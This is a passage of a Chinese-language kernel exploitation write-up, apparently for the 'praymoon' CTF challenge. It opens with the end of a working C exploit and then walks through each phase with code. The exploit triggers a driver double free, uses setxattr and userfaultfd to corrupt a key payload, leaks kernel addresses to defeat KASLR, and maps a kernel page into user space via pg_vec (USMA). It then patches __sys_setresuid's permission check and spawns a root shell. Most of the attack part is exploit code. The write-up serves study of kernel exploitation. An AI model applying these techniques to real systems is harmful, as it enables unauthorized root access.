            ((key_payload[i] & 0xffff) == (CRYPTO_LARVAL_DESTROY & 0xffff))) {
            log.success("Found crypto_larval_destroy at: 0x%lx", key_payload[i]);
            kernel_offset = key_payload[i] - CRYPTO_LARVAL_DESTROY;
            kernel_base += kernel_offset;
            __sys_setresuid = __SYS_SETRESUID + kernel_offset;
            break;
        }
        if ((key_payload[i] > kernel_base) &&
            ((key_payload[i] & 0xffff) == (IGMP_GQ_TIMER_EXPIRE & 0xffff))) {
            log.success("Found igmp_gq_timer_expire at: 0x%lx", key_payload[i]);
            kernel_offset = key_payload[i] - IGMP_GQ_TIMER_EXPIRE;
            kernel_base += kernel_offset;
            __sys_setresuid = __SYS_SETRESUID + kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        log.error("Failed to find kernel symbols in leaked data");
        return -1;
    }

    log.success("Kernel offset calculated: 0x%lx", kernel_offset);
    log.success("Kernel base address: 0x%lx", kernel_base);
    log.success("Target function __sys_setresuid at: 0x%lx", __sys_setresuid);

    return 0;
}

/* Prepare and execute USMA attack to map kernel page */
static int prepare_and_execute_usma_attack(void) {
    log.info("=== Phase 3: Executing USMA Attack to Map Kernel Page ===");

    // Prepare page-aligned kernel addresses for USMA mapping
    log.info("Preparing page-aligned kernel addresses for USMA mapping");
    for (int i = 0; i < 0x120 / 8; i++) {
        uffd_data[i] = __sys_setresuid & KERNEL_MASK;  // Align to page boundary
    }

    uffd_write_safe_page(uffd_context[1], 0, 0x1000 - 0x120, uffd_data, 0x120);
    uffd_write_safe_page(uffd_context[2], 0, 0x1000 - 0x120, uffd_data, 0x120);
    log.success("Prepared page-aligned addresses in userfaultfd buffers for USMA");

    // Revoke key and allocate PGV memory
    log.info("Revoking key object to free user_key_payload");
    key_revoke(key_id);
    sleep(2);

    log.info("Allocating PGV object to occupy freed user_key_payload memory");
    pgv_alloc(0, &v3_cfg);
    sleep(1);
    log.success("PGV object allocated successfully");

    // Resume the first page fault processing
    log.info("Resuming first setxattr thread to free its kmalloc-512 buffer");
    uffd_grant_processing(uffd_context[0]);
    sleep(1);
    log.success("First setxattr buffer freed, memory available for reallocation");

    // First setxattr to try to cover pgv object
    log.info("Attempt 1: setxattr allocation to cover pgv object");
    uffd_copy_data = (size_t *)((char *)uffd_get_monitor_region(uffd_context[1]) + 0x1000 - 0x120);
    log.debug("Using UFFD buffer with kernel page address: 0x%lx", uffd_copy_data[0]);
    RUN_JOB(setxattr, "/etc/passwd", "user.test", uffd_copy_data, 0x200, XATTR_CREATE);
    uffd_wait_for_fault(uffd_context[1]);
    log.success("Page fault #1 triggered via setxattr");

    // Second setxattr to increase chance of covering pgv object
    log.info("Attempt 2: setxattr allocation to cover pgv object");
    uffd_copy_data = (size_t *)((char *)uffd_get_monitor_region(uffd_context[2]) + 0x1000 - 0x120);
    log.debug("Using UFFD buffer with kernel page address: 0x%lx", uffd_copy_data[0]);
    RUN_JOB(setxattr, "/etc/passwd", "user.test", uffd_copy_data, 0x200, XATTR_CREATE);
    uffd_wait_for_fault(uffd_context[2]);
    log.success("Page fault #2 triggered via setxattr");

    // Map PGV memory and verify kernel page is mapped
    log.info("Mapping PGV memory to verify USMA attack success");
    pgv_map(0, &v3_cfg);

    char buffer[0x100];
    pgv_read(0, 0x940, 0x100, buffer);
    if (*(uint64_t *)buffer == 0xad0025048b486555) {
        log.success("USMA ATTACK SUCCESSFUL: Kernel page successfully mapped!");
        log.info("Kernel function __sys_setresuid is now accessible from user space");
        hex_dump2("__sys_setresuid function prologue:", buffer, 0x20);
    } else {
        log.warn("WARNING: Unexpected function prologue detected");
        log.warn("USMA attack may have partially failed - attempting to continue anyway");
        hex_dump2("Memory content at offset 0x940:", buffer, 0x20);
    }

    return 0;
}

/* Patch kernel function and escalate privileges */
static int patch_kernel_and_escalate(void) {
    log.info("=== Phase 4: Patching Kernel Function and Privilege Escalation ===");

    char buffer[0x100];

    // Read current instruction at target offset
    log.info("Reading instruction at offset 0xa04 for patching");
    pgv_read(0, 0xa04, 0x100, buffer);
    hex_dump("Current instruction at __sys_setresuid+0xa04:", buffer, 0x10);

    // Patch conditional jump to unconditional jump
    log.info("Patching conditional jump (jnz) to unconditional jump (jmp)");
    char patch[5] = {0xeb};  // jmp rel8 instruction
    if (pgv_write(0, 0xa04, 1, patch) != 1) {
        log.error("Failed to patch instruction at offset 0xa04");
        return -1;
    }
    log.success("Kernel function successfully patched");

    // Verify patch was applied
    log.info("Verifying patch was applied successfully");
    pgv_read(0, 0xa04, 0x100, buffer);
    hex_dump("Patched instruction at __sys_setresuid+0xa04:", buffer, 0x10);

    // Trigger privilege escalation
    log.info("Triggering setresuid(0, 0, 0) to gain root privileges");
    sleep(1);
    RUN_JOB(setresuid, 0, 0, 0);
    log.info("setresuid called, checking for root privileges...");

    // Monitor for root privilege escalation
    log.info("Monitoring for privilege escalation result");
    while (1) {
        if (!getuid()) {
            log.success("PRIVILEGE ESCALATION SUCCESSFUL! Gained root privileges");
            log.info("Current UID: %d", getuid());

            // Restore original instruction
            log.info("Restoring original instruction (jnz) to maintain system stability");
            char restore_patch[5] = {0x75};  // jnz rel8 instruction
            if (pgv_write(0, 0xa04, 1, restore_patch) != 1) {
                log.error("Failed to restore original instruction at offset 0xa04");
                return -1;
            }
            log.success("Original instruction restored successfully");

            // Spawn root shell
            log.success("Spawning root shell...");
            get_root_shell();
            return 0;
        }
        log.debug("Still not root, current UID: %d, retrying...", getuid());
        sleep(1);
    }

    return 0;
}

/* Main exploit execution flow */
int main(void) {
    // Phase 1: Environment setup
    if (initialize_environment() < 0) {
        log.error("Phase 1 failed: Environment setup");
        return -1;
    }

    // Phase 2: Trigger UAF and leak kernel addresses
    if (trigger_uaf_and_leak_addresses() < 0) {
        log.error("Phase 2 failed: UAF and address leak");
        return -1;
    }

    // Phase 3: USMA attack
    if (prepare_and_execute_usma_attack() < 0) {
        log.error("Phase 3 failed: USMA attack");
        return -1;
    }

    // Phase 4: Patching and privilege escalation
    if (patch_kernel_and_escalate() < 0) {
        log.error("Phase 4 failed: Patching and privilege escalation");
        return -1;
    }
    return 0;
}
```

### 4-1. 利用流程总览

praymoon漏洞利用是一个结构化的、分阶段的内核权限提升技术验证过程，从简单的Double Free漏洞出发，通过一系列精心设计的步骤，最终实现完整的权限提升。整个流程分为四个清晰的逻辑阶段，每个阶段都有明确的技术目标和依赖关系。


```mermaid
graph TD
    A[开始] --> B[阶段1: 环境初始化]
    B --> C[CPU绑定]
    B --> D[PGV初始化]
    B --> E[userfaultfd配置]
    B --> F[设备驱动准备]

    C --> G[阶段2: Double Free触发与信息泄露]
    D --> G
    E --> G
    F --> G

    G --> H[触发Double Free漏洞]
    G --> I[userfaultfd控制内存状态]
    G --> J[泄露内核地址]
    G --> K[绕过KASLR]

    H --> L[阶段3: 内存状态重构与USMA映射]
    I --> L
    J --> L
    K --> L

    L --> M[重构内存状态]
    L --> N[PGV指针修改]
    L --> O[USMA内核页面映射]

    M --> P[阶段4: 内核代码修改与权限提升]
    N --> P
    O --> P

    P --> Q[分析目标函数]
    P --> R[修补内核代码]
    P --> S[绕过权限检查]
    P --> T[获取root权限]

    Q --> U[成功]
    R --> U
    S --> U
    T --> U
```

**利用流程详细说明**：

1. **环境初始化阶段** - 建立稳定的技术验证环境，通过CPU绑定、PGV初始化、userfaultfd配置和设备驱动准备，为后续复杂的内存操作创造条件。

2. **Double Free触发与信息泄露阶段** - 触发驱动程序中的Double Free漏洞，通过setxattr+userfaultfd技术精确控制内存状态，修改user_key_payload的datalen字段，实现越界读取获取内核地址，计算KASLR偏移确定目标函数地址。

3. **内存状态重构与USMA映射阶段** - 重构内存状态，通过PGV系统分配pg_vec结构体，利用setxattr+userfaultfd技术修改PGV缓冲区指针，将目标内核函数页面映射到用户空间，为内核代码修改创造条件。

4. **内核代码修改与权限提升阶段** - 分析目标函数\_\_sys_setresuid的权限检查指令，修补内核代码绕过权限验证，触发setresuid(0,0,0)获取root权限，验证权限提升结果，恢复原始代码。

### 4-2. 环境初始化阶段

**CPU绑定与进程控制**：
首先将当前进程绑定到CPU核心0，这是为了确保所有内存分配和释放操作都在同一CPU的per-CPU缓存中进行。SLUB分配器为每个CPU核心维护独立的缓存链表，通过绑定到固定CPU可以消除CPU间内存状态同步带来的不确定性，确保内存分配行为符合预期。这是整个利用流程稳定性的基础，因为后续的内存重用操作依赖于SLUB分配器的LIFO特性在同一CPU缓存中的确定性。

```c
cpu_set_t set;
CPU_ZERO(&set);
CPU_SET(0, &set);
sched_setaffinity(0, sizeof(cpu_set_t), &set);
```

**PGV系统初始化**：
PGV系统是用户空间与内核内存管理交互的桥梁，它封装了底层的内存分配和映射机制。初始化PGV系统时需要设置版本协议、块大小、块数量和超时参数等关键配置。块数量设置为0x108/8（33个块），**这个值对应pgv_alloc函数中分配的pg_vec数组元素数量，每个pgv结构体大小为8字节，33个结构体占用264字节，这恰好落在kmalloc-512缓存范围。**通过精确控制分配大小，确保与目标对象在同一个SLUB缓存中分配，这是内存重用的关键。

```c
pgv_init(PGV_PROTO_V3);
sleep(2);
```

**userfaultfd上下文创建**：
创建三个独立的userfaultfd上下文，每个上下文负责监控2个连续的虚拟内存页面，但只注册第二个页面到缺页异常监控中。这种配置的核心原理是，当内核执行copy_from_user操作跨越页面边界时，第一个页面的复制可以正常完成，而访问第二个页面时会触发缺页异常。第一个上下文用于控制修改user_key_payload对象的datalen字段，第二个和第三个上下文则用于后续的PGV结构体指针修改尝试。每个上下文都在专门的监控线程中处理缺页异常事件，实现精确的内核线程挂起控制。

```c
page_range_t range = {1, 1};
uffd_context[0] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);
uffd_context[1] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);
uffd_context[2] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);
```

**故障处理数据准备**：
在每个userfaultfd监控区域的第一个页面末尾预先写入控制数据。对于第一个上下文，写入的数据包含关键的datalen修改值0x1000，这个值将覆盖user_key_payload对象的长度字段。精心设计的偏移位置确保复制操作在完成关键数据复制后立即触发页面故障，从而实现精确的执行时序控制。这种页面边界放置技术是userfaultfd内存控制的核心机制。

```c
uffd_data[0] = 0;
uffd_data[1] = 0;
uffd_data[2] = 0x1000;
uffd_data[3] = 0;
uffd_write_safe_page(uffd_context[0], 0, 0x1000 - 0x20, uffd_data, 0x20);
```

**设备驱动程序访问**：
通过标准文件系统接口打开漏洞设备/dev/praymoon，获取文件描述符用于后续的IOCTL操作。这个驱动程序包含Double Free漏洞，允许对同一内存块进行重复释放操作。成功打开设备后，通过ioctl系统调用与驱动程序交互，执行内存分配和释放操作。设备交互的权限检查确保普通用户也可以访问设备节点，这是漏洞可利用性的重要前提。

```c
dev_fd = open("/dev/praymoon", O_RDONLY);
```

**PGV配置参数设置**：
配置PGV协议的具体参数，包括协议版本、块大小、块数量、帧大小和超时值。块大小0x1000对应内存页面大小，**块数量0x108/8（33）确保分配33个pgv结构体，总大小264字节，这将从kmalloc-512缓存中分配。**帧大小2048字节是为网络数据包处理优化的值，但在此利用中主要用于控制内存布局。

```c
static struct pgv_config v3_cfg = {
    .proto_ver = PGV_PROTO_V3,
    .blk_size = 0x1000,
    .blk_count = 0x108 / 8,
    .frame_size = 2048,
    .priv_len = 0,
    .timeout = 1000 * 1000 * 1000,
};
```

### 4-3. Double Free触发与信息泄露阶段

**驱动内存分配**：
通过ioctl系统调用触发驱动程序的内存分配功能，分配一个512字节的内存块。驱动程序内部维护全局指针跟踪分配的内存，分配后该指针指向新分配的内存区域。分配的块大小专门匹配SLUB分配器的kmalloc-512缓存，确保后续内存重用操作的兼容性。分配操作会设置驱动内部的状态标志，防止重复分配，同时保持对已分配内存的引用。

```c
ioctl(dev_fd, ADD_CHUNK);
```

**内存首次释放**：
通过另一个ioctl调用释放驱动程序分配的内存块，但驱动程序存在设计缺陷，释放后未将内部指针置空，导致悬垂指针产生。释放的内存返回SLUB分配器的per-CPU缓存freelist头部，等待后续分配重用。这个阶段创建了Use-After-Free的基本条件，但单独存在尚不足以构成安全威胁，需要后续操作配合。

```c
ioctl(dev_fd, DELETE_CHUNK);
```

**user_key_payload分配**：
通过add_key系统调用创建用户密钥，分配user_key_payload结构体。由于SLUB分配器的LIFO特性，新分配的对象很可能重用刚刚释放的驱动程序内存块。user_key_payload结构体分配大小为0xf0字节，但结构体自身与附加数据的总和会占用512字节的内存块，完全覆盖驱动程序先前使用的内存区域。

```c
key_id = add_key("user", "test_key", key_data, 0xf0, KEY_SPEC_USER_KEYRING);
```

**Double Free触发**：
再次调用驱动程序的释放功能，由于驱动程序内部悬垂指针仍然指向已释放但被user_key_payload占用的内存，这次释放操作将user_key_payload对象的内存标记为空闲。此时，同一内存块在密钥子系统看来仍然有效，但在SLUB分配器看来已释放，形成了典型的Use-After-Free条件。驱动程序的内存管理逻辑缺陷是Double Free漏洞的直接原因。

```c
ioctl(dev_fd, DELETE_CHUNK);
```

**内存状态序列图**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 驱动程序
    participant SLUB分配器
    participant 密钥子系统

    用户空间->>驱动程序: ioctl(ADD_CHUNK)
    驱动程序->>SLUB分配器: 分配512字节内存
    SLUB分配器-->>驱动程序: 返回分配的内存
    驱动程序->>驱动程序: moon = 分配的内存

    用户空间->>驱动程序: ioctl(DELETE_CHUNK)
    驱动程序->>SLUB分配器: 释放moon指向的内存
    驱动程序->>驱动程序: moon仍指向内存（悬垂指针）

    用户空间->>密钥子系统: add_key()
    密钥子系统->>SLUB分配器: 分配user_key_payload
    SLUB分配器-->>密钥子系统: 重用释放的内存

    用户空间->>驱动程序: ioctl(DELETE_CHUNK)
    驱动程序->>SLUB分配器: 再次释放moon指向内存
    Note over 驱动程序,密钥子系统: 此时user_key_payload内存被释放，<br>但密钥子系统认为仍有效
```

**setxattr操作准备**：
创建指向userfaultfd监控区域的数据指针，这个区域包含预先准备的datalen修改值。通过setxattr系统调用设置文件扩展属性，value参数指向控制数据，size参数指定复制0x200字节。setxattr内部会分配临时缓冲区存储属性值，由于Double Free创建的内存状态，这个缓冲区可能重用被释放的user_key_payload内存区域。

```c
size_t *uffd_copy_data = (size_t *)((char *)uffd_get_monitor_region(uffd_context[0]) + 0x1000 - 0x20);
```

**缺页异常触发**：
setxattr系统调用的copy_from_user操作从用户空间复制数据到内核临时缓冲区。数据被精心安排在页面边界，复制操作在完成第一页末尾的控制数据复制后，继续复制时会访问第二页，触发缺页异常。内核线程在访问未映射页面时被挂起，控制权返回用户空间程序，此时user_key_payload的datalen字段已被修改为0x1000。

```c
setxattr("/etc/passwd", "user.test", uffd_copy_data, 0x200, XATTR_CREATE);
uffd_wait_for_fault(uffd_context[0]);
```

**userfaultfd内存控制序列图**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant userfaultfd
    participant SLUB分配器

    用户空间->>内核: setxattr()
    内核->>SLUB分配器: 分配临时缓冲区
    SLUB分配器-->>内核: 返回缓冲区
    内核->>内核: copy_from_user开始
    内核->>内核: 复制第一页数据
    内核->>内核: 修改datalen=0x1000
    内核->>userfaultfd: 访问第二页，触发缺页异常
    userfaultfd-->>内核: 挂起内核线程
    内核-->>用户空间: 返回用户空间
    用户空间->>用户空间: 控制权返回
```

**越界读取操作**：
通过keyctl系统调用的KEYCTL_READ命令读取密钥数据，指定长度为修改后的0x1000字节。读取操作从user_key_payload数据区域开始，但会继续读取之后的内核内存，因为长度字段已被修改。读取的数据包含原始密钥内容、内核堆元数据、可能的内核函数指针和其他敏感信息。读取操作不受原始分配大小限制，成功跨越内存边界。

```c
keyctl(KEYCTL_READ, key_id, (unsigned long)leak_buffer, 0x1000);
```

**内核内存扫描**：
遍历读取的缓冲区，搜索可能的内核指针。内核指针通常位于高地址范围（0xffffffff80000000以上），低12位在KASLR下保持固定。通过比较指针值的低16位与已知内核符号的静态偏移，可以识别特定的内核函数地址。扫描过程从缓冲区起始位置开始，每次读取8字节，检查是否为有效内核地址范围。

```c
for (size_t i = 0; i < 0x200; i++) {
    uint64_t value = ((uint64_t *)leak_buffer)[i];

    if (value > 0xffffffff80000000 && value < 0xffffffffffffffff) {
        if ((value & 0xffff) == (CRYPTO_LARVAL_DESTROY & 0xffff)) {
            kernel_offset = value - CRYPTO_LARVAL_DESTROY;
            break;
        }

        if ((value & 0xffff) == (IGMP_GQ_TIMER_EXPIRE & 0xffff)) {
            kernel_offset = value - IGMP_GQ_TIMER_EXPIRE;
            break;
        }
    }
}
```

**目标函数地址计算**：
目标函数\_\_sys_setresuid是setresuid系统调用的内核实现，它的静态地址是已知的。将静态地址加上计算出的KASLR偏移，得到实际运行时的函数地址。这个地址是后续USMA技术映射的目标，只有获得准确的目标地址，才能正确映射内核代码页面。

```c
target_function = 0xffffffff81088940 + kernel_offset;
```

**内核基址确认**：
通过计算出的KASLR偏移，可以反推内核加载基址。标准内核加载基址是0xffffffff81000000，加上偏移后得到实际基址。基址确认是完整绕过KASLR的验证步骤，确保地址计算正确，避免后续操作因地址错误而失败。

```c
kernel_base = 0xffffffff81000000 + kernel_offset;
```

### 4-4. 内存状态重构与USMA映射阶段

**密钥对象撤销**：
通过keyctl系统调用的KEYCTL_REVOKE命令撤销之前创建的密钥对象。这个操作释放user_key_payload结构体占用的内存，将其返回SLUB分配器的per-CPU缓存。撤销后，密钥不再有效，但内存块变为空闲状态，可供后续分配重用。休眠2秒确保密钥撤销操作完全完成，系统状态稳定。

```c
keyctl(KEYCTL_REVOKE, key_id);
sleep(2);
```

**PGV结构体分配**：
通过pgv_alloc函数分配PGV结构体数组。由于SLUB分配器的LIFO特性，新分配的PGV结构体很可能重用刚刚释放的user_key_payload内存块。**PGV结构体（struct pgv）只有一个成员：char \*buffer，大小为8字节。**pgv_alloc函数分配的是包含block_nr个pgv结构体的数组，每个pgv结构体只有一个buffer指针。分配的数量为0x108/8（33个）结构体，总大小264字节，这会从kmalloc-512缓存中分配，确保与之前释放的内存位于同一缓存。

```c
pgv_alloc(0, &v3_cfg);
sleep(1);
```

**PGV结构体内存布局**：

```
+----------------------+ pg_vec数组 + 0x108 (264字节)
|  pgv[32].buffer      | ← 第33个pgv结构体
+----------------------+ pg_vec数组 + 0x100
|  ...                 |
+----------------------+ pg_vec数组 + 0x8
|  pgv[0].buffer       | ← 第1个pgv结构体，将被修改指向内核代码页面
+----------------------+ pg_vec数组起始地址
```

**pg_vec数组与pgv结构体关系**：
pg_vec是一个指向pgv结构体数组的指针，数组中每个元素都是一个pgv结构体。在pgv_alloc函数中，通过`kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN)`分配数组。**sizeof(struct pgv) = 8字节**，因此当block_nr = 0x108/8 = 33时，分配的总内存为33\*8 = 264字节，这正好落在kmalloc-512缓存中。

**目标地址对齐**：
计算目标函数\_\_sys_setresuid的页面对齐地址，即清除低12位得到4KB页面边界地址。页面对齐是内存映射的基本要求，因为内存映射操作以页面为单位。内核代码页面通常包含多个函数，但通过精确的偏移可以在页面内定位特定函数。

```c
uint64_t aligned_addr = target_function & ~0xFFF;
```

**userfaultfd处理恢复**：
通过uffd_grant_processing函数恢复之前挂起的setxattr操作。这个操作允许之前因缺页异常而挂起的内核线程继续执行，完成copy_from_user操作的剩余部分，然后正常释放setxattr分配的临时缓冲区。恢复操作后，之前被挂起的内核线程将继续执行并最终退出，释放其占用的资源。

```c
uffd_grant_processing(uffd_context[0]);
sleep(1);
```

**userfaultfd缓冲区填充**：
在第二和第三个userfaultfd上下文的监控区域填充目标地址。填充操作从页面末尾开始，向页面起始方向写入重复的目标地址值。**填充长度0x120字节是为了覆盖前33个pgv结构体（总共264字节）**。当setxattr复制0x200字节数据时，复制到第37个pgv结构体（偏移0x120）时触发缺页异常，此时前33个pgv结构体已经被覆盖，其中pgv[i].buffer指针被修改为目标地址。

```c
for (int i = 0; i < 0x120 / 8; i++) {
    uffd_data[i] = aligned_addr;
}
uffd_write_safe_page(uffd_context[1], 0, 0x1000 - 0x120, uffd_data, 0x120);
uffd_write_safe_page(uffd_context[2], 0, 0x1000 - 0x120, uffd_data, 0x120);
```

**内存覆盖精确控制**：

```
用户空间缓冲区（填充数据）：
+----------------------+ 偏移0x1000-0x120
|  aligned_addr        | → 将覆盖pgv[0].buffer
+----------------------+
|  aligned_addr        | → 将覆盖pgv[1].buffer
+----------------------+
|  ... (重复)          |
+----------------------+ 偏移0x1000-0x18
|  aligned_addr        | → 将覆盖pgv[32].buffer
+----------------------+
|  ... (重复)          |
+----------------------+ 偏移0x1000-0x8
|  aligned_addr        | → 将覆盖pgv[36].buffer
+----------------------+ 偏移0x1000
|  aligned_addr        | → 第37个pgv结构体，复制到此触发缺页异常
+----------------------+ 偏移0x1000+0x8
```

**33个pgv结构体的修改**：
通过循环填充0x120/8 = 36个8字节值，其中前33个值会覆盖pg_vec数组中的所有pgv结构体的buffer指针。**每个pgv结构体只有一个buffer指针成员，大小为8字节，因此33个结构体总共占用264字节（0x108字节）。**通过填充0x120字节的数据，确保完全覆盖这33个pgv结构体，并将它们全部修改为内核代码页面的基址。

```c
// 填充36个目标地址值
for (int i = 0; i < 0x120 / 8; i++) {
    uffd_data[i] = aligned_addr;  // 每个都是目标内核代码页面的基址
}
```

**第一次修改尝试**：
通过第一个userfaultfd上下文的监控区域创建指向目标地址的数据指针。调用setxattr系统调用，value参数指向包含目标地址的数据区域，size参数为0x200字节。setxattr内部分配临时缓冲区，由于内存状态，这个缓冲区可能与pg_vec数组重叠。当内核复制数据时，pg_vec数组中的**33个pgv结构体的buffer指针全部被目标地址覆盖**。复制操作在访问第37个pgv结构体（偏移0x120）时触发缺页异常，内核线程被挂起，避免了后续的kfree操作。

```c
size_t *uffd_copy_data1 = (size_t *)((char *)uffd_get_monitor_region(uffd_context[1]) + 0x1000 - 0x120);
setxattr("/etc/passwd", "user.test", uffd_copy_data1, 0x200, XATTR_CREATE);
uffd_wait_for_fault(uffd_context[1]);
```

**第二次修改尝试**：
如果第一次尝试未成功，通过第二个userfaultfd上下文进行第二次尝试。操作流程与第一次相同，但使用不同的userfaultfd上下文和监控区域。两次尝试提高成功率，因为内存分配的确切行为有不确定性。两次尝试都挂起内核线程，防止干扰后续操作。

```c
size_t *uffd_copy_data2 = (size_t *)((char *)uffd_get_monitor_region(uffd_context[2]) + 0x1000 - 0x120);
setxattr("/etc/passwd", "user.test", uffd_copy_data2, 0x200, XATTR_CREATE);
uffd_wait_for_fault(uffd_context[2]);
```

**PGV指针修改序列图**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant userfaultfd
    participant SLUB分配器

    用户空间->>内核: setxattr()
    内核->>SLUB分配器: 分配临时缓冲区
    SLUB分配器-->>内核: 返回缓冲区（可能与pg_vec重叠）
    内核->>内核: copy_from_user开始
    内核->>内核: 复制0x120字节，覆盖pg_vec[0-32].buffer
    内核->>userfaultfd: 复制到第37个pgv，触发缺页异常
    userfaultfd-->>内核: 挂起内核线程
    内核-->>用户空间: 返回用户空间
    Note over 内核: 临时缓冲区未被kfree
    用户空间->>用户空间: 控制权返回
```

**PGV内存映射**：
通过pgv_map函数将PGV结构体映射到用户空间。pgv_map函数会遍历pg_vec数组中的所有pgv结构体，**将每个pgv结构体的buffer指针所指向的页面都映射到用户空间**。由于修改了所有33个pgv结构体的buffer指针，它们都指向同一个内核代码页面，所以实际上会将同一个内核代码页面映射33次到用户空间的不同虚拟地址。在pgv_read时，通过访问第一个映射，实际上读取的是通过pg_vec[0].buffer映射的内核页面。

```c
pgv_map(0, &v3_cfg);
```

**内核代码读取**：
通过pgv_read函数从映射的内存读取内核代码。读取偏移为目标函数在页面内的偏移，读取大小足够包含函数序言。读取的数据是原始机器码，需要与预期值比较以验证映射的正确性。

```c
char buffer[0x100];
// 读取偏移0x940处的内容，这是目标函数在页面内的偏移
pgv_read(0, target_function & 0xFFF, 0x100, buffer);
```

**PGV映射机制说明**：
当调用pgv_map(0, &v3_cfg)时，PGV子系统会：

1. 遍历pg_vec数组中的所有33个pgv结构体
2. 对每个pgv结构体的buffer指针调用get_user_pages_fast获取页面引用
3. 将每个页面映射到用户空间虚拟地址
4. 建立用户空间虚拟地址到内核物理页面的映射关系

由于修改了所有33个pgv结构体的buffer指针，它们都指向同一个内核代码页面，所以实际上会建立33个用户空间虚拟地址到同一个内核代码页面的映射。

**函数序言验证**：
比较读取的机器码与预期值0xad0025048b486555，这个值是\_\_sys_setresuid函数的特征序列。如果匹配，说明成功映射到正确的内核代码页面。如果不匹配，可能映射到错误的页面，或者指针修改不完全成功。

```c
if (*(uint64_t *)buffer == 0xad0025048b486555) {
    // USMA技术验证成功
}
```

**USMA映射示意图**：

```
用户空间虚拟地址                      内核物理地址
+----------------------+ 映射1     +----------------------+
|  pg_vec[0]映射       |<------->|  内核代码页面         |
+----------------------+          +----------------------+
|  pg_vec[1]映射       |<--\     |  (同一物理页面)       |
+----------------------+    \    +----------------------+
|  ...                 |     \-->|                      |
+----------------------+         +----------------------+
|  pg_vec[32]映射      |<--------/
+----------------------+
```

### 4-5. 内核代码修改与权限提升阶段

**目标函数分析**：
\_\_sys_setresuid函数是setresuid系统调用的内核实现，负责设置进程的用户身份凭证。函数内部包含权限检查，验证调用者是否有权修改用户ID。权限检查通常基于进程的能力位图，普通用户缺少CAP_SETUID能力，因此修改用户ID的操作会被拒绝。通过分析函数代码，确定权限检查的具体指令位置是实现权限提升的关键。

**权限检查机制**：
在Linux内核中，setresuid系统调用会检查调用进程是否具有CAP_SETUID能力，或者参数中指定的用户ID等于当前真实用户ID、有效用户ID或保存用户ID。如果检查失败，函数返回EPERM错误。关键的条件跳转指令决定了是否允许权限修改，修改这个跳转指令可以绕过所有权限检查。

**指令位置定位**：
通过静态分析或动态调试确定权限检查指令的确切位置。在目标内核版本中，关键的条件跳转指令位于函数偏移0xa04处。这个位置可以通过反汇编内核二进制或运行时分析确定。指令位置在不同内核版本中可能不同，需要针对目标系统调整。正确的指令位置是成功修改的前提。

**内核代码内存布局**：

```
+----------------------+ __sys_setresuid + 0xa10
|  后续指令            |
+----------------------+ __sys_setresuid + 0xa08
|  错误处理代码        |
+----------------------+ __sys_setresuid + 0xa04 ← 目标修改位置
|  jnz error_handler   | ← 原始: 0x75, 修改为: 0xeb
+----------------------+ __sys_setresuid + 0xa00
|  权限检查指令        |
+----------------------+ __sys_setresuid + 0x9fc
|  函数序言            |
+----------------------+ __sys_setresuid起始地址
```

**当前指令读取**：
从映射的内核内存读取目标位置的当前指令。**pgv_read(0, 0xa04, 0x10, buffer)通过pg_vec[0].buffer的映射读取内核代码页面偏移0xa04处的指令。**读取的指令是原始机器码，需要分析以确认指令类型和操作。权限检查通常使用条件跳转指令，如JNE或JNZ，在检查失败时跳转到错误处理代码。读取指令可以确认目标位置是否正确，以及原始指令是否符合预期。

```c
char current_insn[0x10];
// 读取偏移0xa04处的指令，这是权限检查跳转指令的位置
pgv_read(0, 0xa04, 0x10, current_insn);
```

**指令修补**：
将条件跳转指令修改为无条件跳转指令。原始指令可能是0x75（JNE相对跳转），修改为0xeb（JMP相对跳转）。这个修改使权限检查总是通过，无论实际权限如何。**通过pgv_write(0, 0xa04, 1, &patch)修改pg_vec[0].buffer映射的内核页面中的指令。**修补只修改一个字节，最小化对代码的改动，减少对系统稳定性的影响。

```c
char patch = 0xeb;
// 写入偏移0xa04处，修改条件跳转为无条件跳转
pgv_write(0, 0xa04, 1, &patch);
```

**代码修改序列图**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant PGV映射

    用户空间->>内核: pgv_write(0, 0xa04, ...)
    内核->>PGV映射: 通过pg_vec[0]映射写入内核页面
    PGV映射->>PGV映射: 修改0xa04处字节（0x75 -> 0xeb）
    PGV映射-->>内核: 写入成功
    内核-->>用户空间: 写入成功

    用户空间->>内核: pgv_read(0, 0xa04, ...)
    内核->>PGV映射: 通过pg_vec[0]映射读取内核页面
    PGV映射-->>内核: 返回0xeb
    内核-->>用户空间: 返回0xeb
```

**修改验证**：
重新读取修改位置的指令字节，确认修改已成功应用。验证确保修补操作正确完成，没有因权限问题或地址错误而失败。验证是质量保证步骤，避免基于错误状态进行后续操作。如果验证失败，可能需要重新尝试修改或调整策略。

```c
pgv_read(0, 0xa04, 0x10, current_insn);
```

**缓存一致性**：
修改内核代码后，需要处理指令缓存一致性问题。现代CPU有指令缓存，直接修改内存可能不会立即反映在指令执行中。某些架构需要显式的缓存刷新操作，而x86架构通常会自动处理缓存一致性，但为了安全，可以插入序列化指令或依赖自然的时间延迟。休眠1秒确保缓存完全同步，修改生效。

**权限提升触发**：
调用setresuid系统调用，参数全部为0，尝试将进程的真实用户ID、有效用户ID和保存用户ID都设置为0（root）。由于内核代码已被修改，权限检查被绕过，系统调用应该成功。即使调用进程没有CAP_SETUID能力，修改也会被允许。这是权限提升的关键步骤。

```c
sleep(1);
setresuid(0, 0, 0);
```

**系统调用流程**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant 修改的代码

    用户空间->>内核: setresuid(0)
    内核->>修改的代码: 进入__sys_setresuid
    修改的代码->>修改的代码: 执行权限检查
    修改的代码->>修改的代码: 跳转到0xa04处指令
    修改的代码->>修改的代码: 执行jmp指令（原为jnz）
    修改的代码->>修改的代码: 跳过错误处理
    修改的代码->>内核: 继续执行setresuid逻辑
    内核-->>用户空间: 返回成功（uid=0设置成功）
```

**结果验证**：
通过getuid系统调用检查当前进程的用户ID。如果返回0，表示权限提升成功，进程现在以root身份运行。如果返回非0，表示权限提升失败，需要分析原因。验证是确认利用成功的最终步骤。循环检查确保即使有延迟也能检测到权限提升。

```c
while (1) {
    if (getuid() == 0) {
        // 权限提升成功
        break;
    }
    sleep(1);
}
